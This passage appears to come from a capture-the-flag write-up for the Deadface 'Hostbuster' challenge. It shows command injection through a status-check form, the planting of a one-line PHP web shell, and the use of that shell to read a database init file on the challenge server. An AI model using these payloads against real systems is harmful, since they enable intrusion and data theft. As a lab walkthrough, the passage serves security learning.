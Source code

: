 Oh boy, that is an RCE (Remote Code Execution) here, the "command" value is something executed on the server. From here some folks may start their best Burp Suite or whatever tool proxying browser to intercept and modify the request before it leaves. I personnaly stayed with my Firefox knowing you can replay requests from the dev tool interface, so I tried a couple of options to see what I can do as an (I assumed) "www-data" user. 

I tried the following input as a command because having write permission on the folder would allow the injection of a PHP web shell:
```
command="echo thisisatest > test.txt && ls -a"&check_status=
```
And I was right about the RCE and writing access (text.txt cropped away from the image)

![Desktop View](/assets/img/2024-10-20-Deadface-Hostbuster/TrendyTroveStatusCheckls.png)

So let's inject a webshell ! You can choose something flashy from GitHub, I just stay stuck with the most short and basic one who gets you everywhere:
```PHP
<?php system($_GET['cmd']); ?>
``` 
This way you can just send your command through the cmd argument, it is ugly but it works. 

So just send
```
command=echo '<?php system($_GET['cmd']); ?>' > webshell.php&check_status=
```

and go to the /webshell.php?cmd=whoami page:

![Desktop View](/assets/img/2024-10-20-Deadface-Hostbuster/TrendyTroveWebShellWhoami.png)

If we forget the warning we are in as www-data, from here let's do a little bit of explorations !

From the previous screenshot you can already tell that we are in a Docker container (the Dockerfile) which is typically what you want to have when you create a CTF but it also involves some automatic setup such as populating the database, and it seems like there is a db-init directory, which hold an ``init.sql`` file, so by injecting the following command:
```
https://trendytrove.deadface.io/webshell.php?cmd=cat%20db-init/init.sql
```
